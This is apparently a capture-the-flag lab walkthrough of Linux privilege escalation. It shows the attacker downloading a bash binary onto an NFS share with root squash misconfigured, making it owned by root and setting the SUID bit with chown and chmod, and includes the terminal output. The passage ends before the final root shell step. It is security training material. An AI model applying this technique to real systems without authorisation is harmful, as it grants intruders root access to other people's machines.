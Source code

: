 We can use [this](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) Ubuntu Server 18.04 bash executable.

#### Recap on What Should We Do
1. NFS Access 
2. Gain Low Privilege Shell 
3. Upload Bash Executable to the NFS share 
4. Set SUID Permissions Through NFS Due To Misconfigured Root Squash 
5. Login through SSH
6. Execute SUID Bit Bash Executable 
7. ROOT ACCESS

#### Answer
First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.
```bash
$ cd /tmp/mount/cappucino
```

Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"
```bash
# Download the bash file
$ wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
...
HTTP request sent, awaiting response... 200 OK
Length: 1113504 (1.1M) [application/octet-stream]
Saving to: ‘bash’

bash                     100%[==================================>]   1.06M  1.87MB/s    in 0.6s    

2021-01-07 01:48:32 (1.87 MB/s) - ‘bash’ saved [1113504/1113504]

$ ls
bash

# Change the permission to user: root
$ ls -l bash 
-rw-r--r-- 1 kali kali 1113504 Jan  7 01:48 bash
$ sudo chown root bash                            
[sudo] password for kali: 
$ ls -l bash     
-rw-r--r-- 1 root kali 1113504 Jan  7 01:48 bash
```

Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?
```bash
$ ls -l bash 
-rw-r--r-- 1 root kali 1113504 Jan  7 01:48 bash
$ sudo chmod +s bash                             
$ ls -l bash 
-rwSr-Sr-- 1 root kali 1113504 Jan  7 01:48 bash
```
It's **s** permission that stands for SUID.
